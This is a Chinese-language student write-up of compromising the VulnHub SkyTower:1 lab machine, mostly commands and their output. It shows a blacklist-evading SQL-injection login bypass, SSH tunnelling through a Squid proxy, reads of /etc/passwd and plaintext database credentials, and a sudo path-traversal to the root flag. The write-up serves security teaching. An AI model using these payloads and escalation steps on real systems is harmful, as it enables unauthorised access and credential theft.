






# 网络攻防实战 Lab09 Writeup

!!! quote "使用的靶机为 VulnHub SkyTower:1"

## 渗透目的

取得目标靶机的 root 权限

了解基本的 SQL 查询；了解 Proxy 代理连接

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机与靶机，网络采用 NAT 连接

`ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-02 05:46 CST
Nmap scan report for 10.0.2.1
Host is up (0.00057s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for 10.0.2.2
Host is up (0.00038s latency).
MAC Address: 08:00:27:3D:F3:DE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.17
Host is up (0.0011s latency).
MAC Address: 08:00:27:83:79:65 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.3
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.02 seconds
```

考虑靶机 ip 为 `10.0.2.17`，继续扫描端口 `nmap -p- -sV -sC 10.0.2.17`，看看有哪些服务项

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-02 05:47 CST
Nmap scan report for 10.0.2.17
Host is up (0.0023s latency).
Not shown: 65532 closed tcp ports (reset)

// 一个未开放的 SSH 服务
// 可能需要端口敲门，也可能要借助 3128 的 proxy 访问
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh

// HTTP 服务，基于 Apache 2.2.22
PORT     STATE    SERVICE    VERSION
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).

// Squid 代理服务
PORT     STATE    SERVICE    VERSION
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:83:79:65 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.04 seconds
```

同时确定靶机操作系统为 `Debian`

---

### Getshell 尝试

#### HTTP 访问



发现是一个登录页面，尝试 SQL 注入：

```
sqlmap -u 10.0.2.17 --forms --crawl=2 --risk=2 --level=3

// 一堆内容

[06:01:24] [INFO] testing for SQL injection on POST parameter 'email'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y

// 一堆内容

[06:03:38] [ERROR] all tested parameters do not appear to be injectable. Try to increase values f '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some nd of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g.--tamper=space2comment') and/or switch '--random-agent', skipping to the next target
```

总之是没发现注入点，但是至少知道了这是 MySQL，手动注入时的一些报错信息也说明了这一点：

```
# 账密输入为 test' 的输出：
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'test''' at line 1]
```

整理了一下，似乎有屏蔽 `or` 等关键词，考虑用 `||` 代替 `or`，使用了下面的变种万能密码注入成功：

（相比常见的万能密码，`or` 换成了 `||`，结尾额外加上了注释符，注释后续内容）

```sql
' || '1'='1'#
```

进入了这样的页面：



提供了 SSH 的账密，并且引导我们登录 SSH

```yaml
Username: john
Password: hereisjohn
```

#### SSH 访问

直接访问会无法连接

```
> ssh john@10.0.2.17 -p 22 
ssh: connect to host 10.0.2.17 port 22: Connection timed out
```

上一个靶机采用的是端口敲门，但是这个靶机没有相应信息，考虑借助 3128 端口的代理服务访问 SSH（内网访问）

首先建立一个隧道

```bash
proxytunnel -p 10.0.2.17:3128 -d 10.0.2.17:22 -a 1145
```

然后连接本地的代理端口

```bash
> ssh -p 1145 john@127.0.0.1
john@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Dec  1 17:52:07 2025 from 10.0.2.17

Funds have been withdrawn
Connection to 127.0.0.1 closed.
```

发现成功登录上了 SSH，但是对面的程序在输出 `Funds have been withdrawn` 之后就直接断开了连接

上述情形最常见的一种实现是：在 `~/.bashrc` （shell 配置文件）中添加这样的内容：

```bash
echo "Funds have been withdrawn"
exit
```

所以最直接的方法就是在 SSH 连接的同时执行一条指令，比如验证我上述的猜测：

```bash
> ssh -p 1145 john@127.0.0.1 "cat ~/.bashrc"
```

发现和我的猜测一致，退出操作在 `~/.bashrc` 中配置，于是我们删除该文件：

```bash
> ssh -p 1145 john@127.0.0.1 "rm -f ~/.bashrc"
```

完成 Getshell



### 提权尝试

在家目录 `ls -al` 一下发现没有有价值的内容：

```
john@SkyTower:~$ ls -al
total 20
drwx------ 2 john john 4096 Dec  1 18:00 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
```

看看服务器的账户：

```hl_lines="23 24 25"
john@SkyTower:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
john:x:1000:1000:john,,,:/home/john:/bin/bash
sara:x:1001:1001:,,,:/home/sara:/bin/bash
william:x:1002:1002:,,,:/home/william:/bin/bash
```

发现还有另外两个 `/bin/bash` 的用户，但是没有家目录的访问权限

```
john@SkyTower:~$ ls /home/sara
ls: cannot open directory /home/sara: Permission denied
john@SkyTower:~$ ls /home/william
ls: cannot open directory /home/william: Permission denied
```

甚至连 `sudo -l` 都没有权限

```
john@SkyTower:~$ sudo -l
[sudo] password for john: 
Sorry, user john may not run sudo on SkyTower.
```

考虑到之前 Getshell 时都是从 `www-data` 开始的，不妨在 `/var/www` 中翻一翻 SQL 库等信息：

```
john@SkyTower:~$ cd /var/www
john@SkyTower:/var/www$ ls -la
total 5300
drwxr-xr-x  2 root root    4096 Jun 20  2014 .
drwxr-xr-x 12 root root    4096 Jun 20  2014 ..
-rwxr--r--  1 root root 2831446 Jun 20  2014 background2.jpg
-rwxr--r--  1 root root 2572609 Jun 20  2014 background.jpg
-rwxr--r--  1 root root    1136 Jun 20  2014 index.html
-rwxr--r--  1 root root    2393 Jun 20  2014 login.php
```

分析 `login.php`：

```php title="login.php" hl_lines="11 12"
<?php

# 数据库账密为 root - root
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

if($db->connect_errno > 0){
    die('Unable to connect to database [' . $db->connect_error . ']');

}

# 这里我们发现了一些 SQL 注入的黑名单
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");

# 黑名单内容替换为空格
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);


if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
                  padding-right:8px;  
                  padding-left:10px; 
                  padding-top: 10px;  
                  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
        ';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>
```

发现管理员账密明文存储，进行登录

```bash
mysql -u root -proot
```

然后进行大调查：

```sql
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```

看上去我们得到了三名员工的账密，在 SSH 上验证：



成功访问了 Sara 账户，依旧是一些信息收集：

（后记：`william` 的账户似乎登录不上去）

```
sara@SkyTower:~$ ls -al
total 16
drwx------ 2 sara sara 4096 Dec  1 18:33 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw-r--r-- 1 sara sara  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 sara sara  675 Jun 20  2014 .profile

sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

发现 Sara 有对 `/accounts/*` 的 `cat` 和 `ls` 操作权限：

```
# 甚至 ls -la 就可以
sara@SkyTower:~$ ls -la
total 8
drwxr-xr-x  2 root root 4096 Jun 20  2014 .
drwxr-xr-x 24 root root 4096 Jun 20  2014 ..
```

什么都没有。但是既然我们获得了 `/accounts/*` 的 `root` 访问权限，不妨进行地址绕过，越权访问其他文件，比如靶机开机提示语中提到的 `flag.txt`：

```hl_lines="5"
sara@SkyTower:~$ sudo /bin/ls /accounts/../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

得到 root 密码，尝试登录：



提权成功，获得 root 账户

---

## 渗透结果

成功获得了 root 账户权限，修改密码在靶机登录



---

## 问题分析/启示

1. 学会借助已有 proxy 服务搭建隧道，进行代理链接

---

## 其他

用时 2h

---
